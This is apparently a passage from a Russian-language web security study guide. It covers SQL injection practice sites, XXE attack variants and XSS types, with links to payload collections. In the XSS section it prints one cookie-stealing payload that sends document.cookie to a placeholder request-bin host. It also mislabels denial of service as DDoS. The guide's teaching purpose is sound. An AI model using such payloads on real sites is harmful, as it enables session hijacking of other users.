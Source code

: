 Практика:  
- [Навыки работы с SQL](https://www.sql-ex.ru/?Lang=0)
- [portswigger](https://portswigger.net/web-security/sql-injection)
- [root-me](https://www.root-me.org/ru/Zadachi-i-problemy/Veb-server/)

## Уязвимости внедрения внешних сущностей XML

Список полезных нагрузок:  
- [PayloadsAllTheThings/XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)

Атаки инъекции XXE позволяют провести множество различных вариаций векторов атак, например:  

- Использование XXE для получения файлов, где определяется внешняя сущность, содержащая содержимое файла, и возвращается в ответе приложения.
- Использование XXE для выполнения SSRF атак, где внешняя сущность определяется на основе URL на внутреннюю систему.
- Использование слепой инъекции XXE с отправкой данных за рамки клиент-серверного приложения, где конфиденциальные данные передаются с сервера приложения на систему, контролируемую злоумышленником.
- Использование слепого XXE для получения данных с помощью сообщений об ошибках, где злоумышленник может вызвать сообщение об ошибке разбора, содержащее конфиденциальные данные.
- Использование XXE для проведения атак отказа в обслуживании (англ. Distributed Denialof Service (DDoS)).

Дополнительный материалы:  
- [portswigger](https://portswigger.net/web-security/xxe/xml-entities)
- [PayloadsAllTheThings - XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
- [Обзор уязвимости XXE и ее вариаций](https://phonexicum.github.io/infosec/xxe.html) 
- [Практика на платформе portswigger](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection)

## Атаки межсайтового скриптинга (XSS)

Межсайтовый скриптинг (также известный как Cross-Site Scripting, XSS) – это уязвимость веб-безопасности, позволяющая злоумышленнику компрометировать взаимодействие пользователей с уязвимым приложением. Она позволяет злоумышленнику обходить политику одного источника (Same Origin Policy, SOP), которая предназначена для разделения различных веб сайтов друг от друга.  

Пример:  
`<img src=x onerror=fetch('https://ADDR.x.pipedream.net/?'+document.cookie) />`  

Полезный ресурс:  
[Inspect webhooks and HTTP requests](https://pipedream.com/requestbin)  

Три основных типа XSS-атак:  

- Отраженный XSS, где вредоносный скрипт происходит из текущего HTTP запроса.
Отраженный межсайтовый скриптинг (XSS) возникает, когда приложение получает данные в HTTP-запросе и включает эти данные непосредственно в ответ небезопасным способом.  
Например: `https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>.`
- Хранимый XSS, где вредоносный скрипт приходит из хранилища данных веб-сайта.
Сохраненный межсайтовый скриптинг (скриптинг второго порядка или постоянный XSS) возникает, когда приложение получает данные из недоверенного источника и включает эти данные в свои последующие HTTP-ответы небезопасным способом.
- Dom-based XSS, где уязвимость существует в клиентском коде, а не в коде сервера.
Наиболее распространенным источником для DOM XSS является URL, доступ к которому обычно осуществляется с помощью объекта windows.location.  Злоумышленник может построить ссылку для отправки жертвы на уязвимую страницу с полезной нагрузкой в строке запроса и фрагментами URL. В некоторых случаях, например, при нацеливании на страницу 404 или на сайт, работающий на PHP, полезная нагрузка также может быть помещена в путь.
